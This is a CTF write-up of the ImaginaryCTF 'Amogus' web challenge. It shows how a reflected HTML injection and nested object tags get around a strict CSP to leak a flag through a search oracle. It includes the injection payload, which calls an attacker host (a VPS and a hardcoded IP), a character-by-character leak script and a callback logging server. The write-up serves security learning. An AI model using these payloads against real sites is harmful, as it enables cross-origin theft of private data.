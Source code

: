 ```yaml
---
layout: post
title: "Imaginary CTF - Amougs"
date: 2024-04-20
tags: [ctf, web, xs-leak, visited-css, performance,scriptless]
category_icon: "ඞ"
---
```



Amogus was an XS-Leak challenge from ImaginaryCTF with a **strict** CSP to block any potential XSS. CSP was being set by employing Nginx to setup a response header: 

```
add_header Content-Security-Policy "sandbox allow-forms allow-same-origin; img-src *; default-src none; style-src 'self'; script-src none; object-src http: https:; frame-src http: https:;" always;
```

# Limited XSS in auth.supersus.corp

The endpoint allows us to inject arbitary code by employing the ```/?error= ```
```python
@app.route('/', methods=["GET", "POST"])
def login():
    if request.method == "GET":
        error = request.args.get("error", "")
        return make_response(env.get_template("login.html").render(error=error))
    if request.method == "POST":
        username = request.form["username"]
        password = request.form["password"]

        user = User.query.filter_by(username=username).first()

        if user and user.password == password:
            return redirect(f"http://mail.supersus.corp/auth?auth={password}")
        else:
            error = "Invalid username or password."
            return redirect(url_for("login", error=error))
```


# The Exploit Technique

Our core technique is script-less, abusing the ```object-src``` CSP directive. Since the search endpoint on **auth.supersus.corp** will return a 404 if the char was not found, we can use it as an oracle:

```python
@app.route("/emails/<int:user_id>")
def view_emails(user_id):
    user = User.query.get_or_404(user_id)

    if not "auth" in request.cookies or request.cookies["auth"] != user.password:
        return "Unauthorized", 404

    keyword = request.args.get("search", "")
```

By using the following script-less payload:

```js
http://auth.supersus.corp/?error="><object data="http://mail.supersus.corp/emails/1?search=ictf{"><object data="http://VPS/?error"></object></object>
```

In this case if ```http://mail.supersus.corp/emails/1?search=ictf{NOTFOUND``` is not found we will get a hit on our attacker controlled domain.


# Leaking the flag

Now that we have an oracle for our search, I came up with the following script to leak the flag char by char. 
```python
from pwn import *
import string
import time
import requests

url = "http://VPS/log.txt"
base_payload = 'http://auth.supersus.corp/?error="><object data="http://mail.supersus.corp/emails/1?search={}"><object data="http://52.39.251.152:8080/{}"></object></object>'

charset = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ_{}"
flag = "ictf{"

while True:
    for char in charset:
        temp_flag = flag + char
        print(f'trying {temp_flag}')
        payload = base_payload.format(temp_flag, temp_flag)
        r = remote("amogus-admin-bot.chal.imaginaryctf.org", 1337)
        print(r.recv())
        r.sendline(payload)
        time.sleep(2)
        # check if it's found or not
        try:
            x = requests.get(url).text
            if temp_flag not in x:
                flag += char
                print(flag)
                break
        except Exception as e:
            print("Error:", e)

```

From the server side, I made a simple Python http server which appends to a text file each time there's an 404: 

```python
#!/usr/bin/env python3
from http.server import HTTPServer, SimpleHTTPRequestHandler, test
import sys

class CORSRequestHandler(SimpleHTTPRequestHandler):
    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')
        self.send_header('Content-Type', 'text/html')
        SimpleHTTPRequestHandler.end_headers(self)

    def send_error(self, code, message=None, explain=None):
        if code == 404:
            self.log_error("404 Not Found: %s", self.path)
            self.log_message("path is not correct (not found): %s", self.path)
            with open('log.txt', 'a') as log_file:
                log_file.write(f"{self.path}\n")

        super().send_error(code, message, explain)

if __name__ == '__main__':
    test(CORSRequestHandler, HTTPServer, port=int(sys.argv[1]) if len(sys.argv) > 1 else 8000)
```

It took a while to run but eventually we got the flag

![image](https://github.com/ixSly/CTFs/assets/32583633/a1b6aa75-d7a5-4a02-b5d0-6d0fabaabcc8)


